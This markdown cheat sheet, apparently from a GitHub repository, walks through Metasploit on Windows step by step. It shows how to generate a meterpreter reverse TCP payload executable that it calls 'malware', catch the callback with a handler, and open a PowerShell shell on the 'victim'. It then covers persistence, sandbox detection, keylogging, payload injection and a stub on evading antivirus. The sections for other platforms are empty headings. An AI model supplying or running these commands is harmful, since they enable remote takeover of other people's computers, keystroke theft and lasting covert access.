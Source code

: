 # Metasploit Reverse TCP 

Open a reverse tcp session! More details here:
  * Reverse TCP: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/windows/meterpreter/reverse_tcp.md
  * Reverse HTTPS: https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/windows/meterpreter/reverse_https.md
  * How to use msfvenom: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom
  * Meterpreter Basic Commands, Offensive Security (https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
  * Interactive PowerShell Sessions within Meterpreter, June 2015 (https://www.trustedsec.com/june-2015/interactive-powershell-sessions-within-meterpreter/)
  * Mimikatz, Offensive Security (https://www.offensive-security.com/metasploit-unleashed/mimikatz/)

Other resources:
  * https://www.darkoperator.com/blog/2011/12/16/injecting-payloads-into-memory-meterpreter.html

## 1. Windows

#### A. Generate malware

```bash
$ msfconsole
msf > use windows/x64/meterpreter_reverse_tcp
msf payload(windows/x64/meterpreter_reverse_tcp) > set LHOST <listener_internet_ip>
msf payload(windows/x64/meterpreter_reverse_tcp) > generate -f payload.exe -t exe
[*] Writing 212480 bytes to payload.exe...
```

#### B. Handle Reverse TCP

```bash
$ msfconsole  
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST <listener_intrnet_ip>
msf exploit(multi/handler) > exploit -j

# HELP:
msf exploit(multi/handler) > sessions -h

# display active sessions
msf exploit(multi/handler) > sessions

# interact with a session
msf exploit(multi/handler) > sessions -i <session_ID>

# access command line
meterpreter > shell
> powershell

# put session in background
meterpreter > background
[*] Backgrounding session 1...

# make malware persisent
# WARNING: Make sure you own IP provided when created payload. 
# That who own that IP can control victim
meterpreter > run persistence
# or https://www.rapid7.com/db/modules/post/windows/manage/persistence_exe

# Check wether malware was executed on VMWare
meterpreter > run post/windows/gather/checkvm

# Suspend any activity for 20 seconds
meterpreter > sleep 20

# Keylogger
meterpreter > keyscan_start
Starting the keystroke sniffer...
meterpreter > keyscan_dump
Dumping captured keystrokes...
Hello World!!

# Uninstall the malware before persistency
meterpreter > run post/windows/manage/payload_inject PAYLOAD=windows/meterpreter/reverse_https,LHOST=<>,LPORT=4444,HANDLER=true,OPTIONS='SessionCommunicationTimeout=0,SessionExpirationTimeout=0,PID=3384'
meterpreter > exit		# this will actually close session.
msf exploit(multi/handler) > sessions <new_created_session_ID>
meterpreter > shell
C:\> del \path\malware_name.exe
meterpreter > exit
[*] Shutting down Meterpreter...

# Uninstall after persistency
# Reverse what you just congigured using log file created: root/.msf4/logs/persistence/*

# Update the payload
# Usefull in case it is detected by antivirus
# to be continued...
```

## 2. Linux

## 3. Android

## 4. OSX

## 5. Python

## 6. PHP